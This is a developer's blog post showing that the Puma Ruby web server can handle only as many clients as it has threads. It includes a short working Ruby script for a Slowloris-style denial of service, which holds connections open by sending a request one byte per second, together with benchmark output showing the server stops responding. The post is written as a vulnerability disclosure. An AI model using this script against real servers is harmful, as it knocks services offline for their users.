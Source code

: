 ```yaml
---
title: Puma and the light

categories:
  - programming
  - ruby
  - lol

layout: post
---
```


Today after I finished wrapping up [barlume](https://github.com/meh/barlume) I started
thinking about the next steps.

At first I thought about writing a reactor with it and adding a compatibility layer to
make it work like [EventMachine](https://github.com/eventmachine/eventmachine) (and it
will be done), but then I thought about Puma.

[Puma](http://puma.io/) is a very awesome Ruby web server, I really like what it tries to
achieve and by reading the homepage it seems really performant.

So I started digging around the source to see where I could improve its performances and
after seeing the orror of `IO.select` usage (which isn't that bad for how they use it) I
noticed how it handled connections and requests.

{% highlight ruby %}
@thread_pool = ThreadPool.new(@min_threads, @max_threads) do |client, env|
  process_client(client, env)
end
{% highlightend %}

When it starts it creates a `ThreadPool`, the default minimum is **0** the default maximum is **16**,
after reading more of it, specifically that `process_client` function I realized something else:
it can only handle *maximum threads* clients at a time.

What are the consequences of this sad realization? The consequences are that this simple script
makes *puma* completely unresponsive:

{% highlight ruby %}
#! /usr/bin/env ruby
# encoding: utf-8
require 'socket'

max_threads = ARGV.empty? ? 16 : ARGV.first.to_i
sockets     = []

max_threads.times {
	sockets << TCPSocket.new('localhost', 4567)
}

content = "GET / HTTP/1.1\r\nHost: localhost\r\n\r\n"
offset  = 0

puts "oh noes, a wall on my path D:"

while offset < content.length
	sockets.each {|s|
		s.write_nonblock content[offset]
	}

	offset += 1
	sleep 1
end

puts "oh, there's a door ( ･ ◡◡･)"
{% highlightend %}

I ran that script on a simple *sinatra* application and prepared to run `ab` to see
how it handled everything, this was the result:

    Benchmarking 127.0.0.1 (be patient)...apr_poll: The timeout specified has expired (70007)

It **dies**.

When the slowpokes are done everything restarts working properly.

So, what's next about all of this? I'll try to write a patch to make it use barlume
and keep it as concurrent as before.

In the meantime I'd suggest to not use it in production or at least with other external
measures to avoid that kind of attack.

